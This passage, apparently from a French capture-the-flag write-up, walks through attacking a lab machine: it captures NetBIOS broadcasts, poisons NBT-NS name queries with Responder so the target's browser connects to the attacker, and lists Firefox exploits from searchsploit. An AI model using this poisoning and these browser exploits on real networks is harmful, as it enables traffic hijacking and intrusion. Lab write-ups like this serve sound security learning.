 ~~~bash

08:33:01.979097 IP (tos 0x0, ttl 64, id 0, offset 0, flags [DF], proto UDP (17), length 78)
    leopold.46610 > 192.168.122.255.netbios-ns: [udp sum ok] 
>>> NBT UDP PACKET(137): QUERY; REQUEST; BROADCAST
TrnID=0x5DC6
OpCode=0
NmFlags=0x11
Rcode=0
QueryCount=1
AnswerCount=0
AuthorityCount=0
AddressRecCount=0 
QuestionRecords:                            
Name=DISNEYWORLD     NameType=0x00 (Workstation)    
QuestionType=0x20 
QuestionClass=0x1                                                                                                                    
~~~

Comme nous le voyons ici, de jolies requêtes en broadcast sont émises par la machine. Il s'agit en fait de requêtes `netbios` vers un serveur Active Directory. Voyons voir avec `responder` :

~~~bash
root@kali:~# responder -I eth0 -wrfv                                    

[+] Listening for events...
[*] [NBT-NS] Poisoned answer sent to 192.168.122.131 for name DISNEYWORLD (service: Workstation/Redirec
tor)
[FINGER] OS Version     : Unix
[FINGER] Client Version : Samba 3.6.6

~~~

Ici, `responder` répond à la place du serveur `ActiveDirectory` pour rediriger la cible vers notre machine d'attaque.

Avec `tcpdump` (en parallèle) nous constatons en effet des requêtes `HTTP` venant de notre cible sur notre machine d'attaque : 

~~~bash
GET / HTTP/1.1
Host: disneyworld
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:16.0) Gecko/20100101 Firefox/16.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
~~~

> J'ai lancé ceci tcpdump  'src 192.168.122.131' -w leopold.pcap 

Nous allons maintenant chercher un exploit permettant d'attaquer le navigateur de la cible : 

~~~bash
root@kali:~# searchsploit -e Firefox --exclude="denial of service" -w
Mozilla Firefox - 'Array.reduceRight()' Integer Overflow (Metasploit) (2)                 | https://www.exploit-db.com/exploits/17976
Mozilla Firefox - 'nsTreeRange' Dangling Pointer (2)                                      | https://www.exploit-db.com/exploits/17419
Mozilla Firefox - 'pdf.js' Privileged JavaScript Injection (Metasploit)                   | https://www.exploit-db.com/exploits/37958
Mozilla Firefox - 'table' Use-After-Free                                                  | https://www.exploit-db.com/exploits/41660
Mozilla Firefox - Interleaving 'document.write' / 'appendChild' (Metasploit)              | https://www.exploit-db.com/exploits/16509
Mozilla Firefox - Proxy Prototype Privileged JavaScript Injection (Metasploit)            | https://www.exploit-db.com/exploits/36480
~~~